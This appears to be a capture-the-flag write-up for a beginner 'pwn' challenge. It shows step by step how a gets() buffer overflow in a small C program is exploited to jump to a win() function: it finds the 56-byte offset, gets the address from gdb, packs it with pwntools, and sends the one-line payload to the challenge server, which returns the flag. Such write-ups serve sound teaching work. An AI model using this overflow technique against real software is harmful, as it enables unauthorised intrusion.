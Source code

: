 Coming Soon!
**Please call 1-500-WIN to get the flag!**

> Category: Pwn
>
> You might have heard of buffer overflows, but do you know how to exploit them?
> 
> The goal of this challenge is to overwrite main's return pointer which is stored on the stack, with the address of the win() function. There are several good (and > bad) tutorials on how to do this online. Googeling for example ret2win or binary exploitation buffer overflow might be a good place to start.
> 
> nc io.ept.gg 30022

We are given a c-file (pwn2.c in this directory).
By looking at the **main**-function, we can see that the program uses gets(), which is vulnerable to a buffer overflow.
We also see that there is a function, **win**, which prints out the flag if we can get it to run.
We can overwrite the return address to return to the **win**-function, to print out the flag.

#########################
# Breaking the program  #
#########################
First we need to find out when the program breaks. We see that the buffer gets() writes into is 40 bytes. We try to write different amount of 'A's to find out exactly when the program breaks. 
```
python3 -c "print('A'*60)" | ./pwn2
Enter some text: 
Segmentation fault (core dumped)
```
We can see that the program seg-faults when we write 60 bytes. By trying some more we find out that the program seg-fauls at 57 bytes, but not 56. This means that at byte 57 we start overwriting the return address in EIP.

We must know the funciton-address of the win-function we want the program to run. We can use gdb to find the function-address.
We set a breakpoint in the program at the main function, and disassemble the win function.
```
> b main 
> run
> disass win
```
> 0x0000000000401314 <+0>:	endbr64 
> 0x0000000000401318 <+4>:	push   %rbp
> 0x0000000000401319 <+5>:	mov    %rsp,%rbp
> 0x000000000040131c <+8>:	sub    $0x110,%rsp

We see that the win-function has the address 0x401314, which is the value we want to write into the EIP-register.

We cannot write 401314 directly into the EIP-register, because we need padding (also endian notation). We can use pwntools to do the 64-bit padding and endian notation for use:
```
>>> from pwn import *
>>> p64(0x401314)
b'\x14\x13@\x00\x00\x00\x00\x00'
```
We now have the amount of 'A's to reach the point where we write over the EIP-register, we also have the address to write into that register. 
We combine the two together and get the following:

``` 
python3 -c "print('A'*56 + '\x14\x13@\x00\x00\x00\x00\x00')" | nc io.ept.gg 30022
```

We get out the flag:
> EPT{congratulations_y0u_win!}
